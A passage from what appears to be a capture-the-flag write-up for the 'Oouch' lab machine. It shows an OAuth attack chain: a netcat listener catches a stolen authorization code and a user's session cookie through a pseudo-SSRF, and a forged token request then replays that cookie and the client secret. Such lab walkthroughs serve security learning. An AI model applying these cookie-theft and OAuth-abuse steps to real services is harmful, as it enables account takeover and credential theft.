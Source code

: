 ```
$ nc -nlvp 8888
Connection from 10.10.15.142:41502
GET /?code=68fq0Y8Anbh0Elid3ERKvrb9UCzsbO HTTP/1.1
Host: 10.10.15.142:8888
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://authorization.oouch.htb:8000/oauth/authorize/?response_type=code&client_id=ZOm8R6GdrX3CacO5mvG3pVuSYcKQWXrpN8aSCDuX&redirect_uri=http://10.10.15.142:8888/&grant_type=authorization_code&client_secret=Wy3JSx7w98SUgoKC1SldvjndEVATgXnoh7WgkLWNkWSWlgnxUniRqHbIRsGAZvxsMQUo1bB2XojK3jNZ7lCCpdIBIkCXspP4H2SveQ3GXHd49F3ACp3mgFddkIcmDJAs
Connection: close
Upgrade-Insecure-Requests: 1
```

### 2nd oAuth exploitation

Let's go back to the contact page (http://consumer.oouch.htb:5000/contact) and use the pseudo-SSRF to gain qtc access, not to the consumer site but to the provider site this time.

After a few minutes we receive the cookie of qtc:

```
$ nc -nlvp 8888
Connection from 10.10.10.177:55806
GET /?error=invalid_request&error_description=Missing+response_type+parameter. HTTP/1.1
Host: 10.10.15.142:8888
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: sessionid=08lyfd5lxftdn9v5gd7knjxok4unsf0e;
```

Let's request http://authorization.oouch.htb:8000/ but with qtc's cookie.

We are now logged in as qtc:

As listed on the home page there is a token endpoint but it seems not reachable with GET, so let's try a POST (as explained in Oracle oAuth doc anyway). The doc also tells us which params to use.

```
POST /oauth/token/ HTTP/1.1
Host: authorization.oouch.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: sessionid=08lyfd5lxftdn9v5gd7knjxok4unsf0e; csrftoken=w8Q1tZ5XGQnYIfsjJMNksuQoCg5yYHOtkiWHEK2j8Xsu4ti75whbRr32oLBxC6bZ
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 223

grant_type=client_credentials&client_id=ZOm8R6GdrX3CacO5mvG3pVuSYcKQWXrpN8aSCDuX&client_secret=Wy3JSx7w98SUgoKC1SldvjndEVATgXnoh7WgkLWNkWSWlgnxUniRqHbIRsGAZvxsMQUo1bB2XojK3jNZ7lCCpdIBIkCXspP4H2SveQ3GXHd49F3ACp3mgFddkIcmDJAs```

We receive this error:

```json
{"error": "unauthorized_client"}
```
